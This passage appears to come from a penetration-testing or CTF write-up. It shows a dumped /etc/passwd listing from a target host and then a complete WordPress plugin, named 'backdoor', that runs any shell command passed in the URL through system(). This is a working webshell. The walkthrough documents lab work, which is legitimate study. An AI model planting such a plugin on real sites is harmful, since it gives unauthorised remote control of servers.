 man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
colord:x:104:109:colord colour management daemon,,,:/var/lib/colord:/bin/false
whoopsie:x:105:112::/nonexistent:/bin/false
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
bind:x:107:117::/var/cache/bind:/bin/false
postfix:x:108:118::/var/spool/postfix:/bin/false
dovecot:x:109:120:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:110:65534:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:111:121::/var/lib/landscape:/bin/false
libvirt-qemu:x:112:106:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:113:123:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:114:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:115:124:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
tomcat6:x:116:126::/usr/share/tomcat6:/bin/false
wpadmin:x:1001:1001::/home/wpadmin:/bin/sh
{% endhighlight %}

Still no way to get a password.

Next I realized as an administrator I can install plugins.  So I made a simple webshell:

{% highlight php %}
<?php
/*
 * Plugin Name: backdoor
 * Plugin URI: https://www.com
 * Description: backdoor
 * Version: 1.0.0
 * Author: backdoor
 * Author URI: http://www.com
 * Text Domain: backdoor
 * Domain Path: /languages
 * */

echo system($_GET["cmd"]); 
?>
{% endhighlight %}
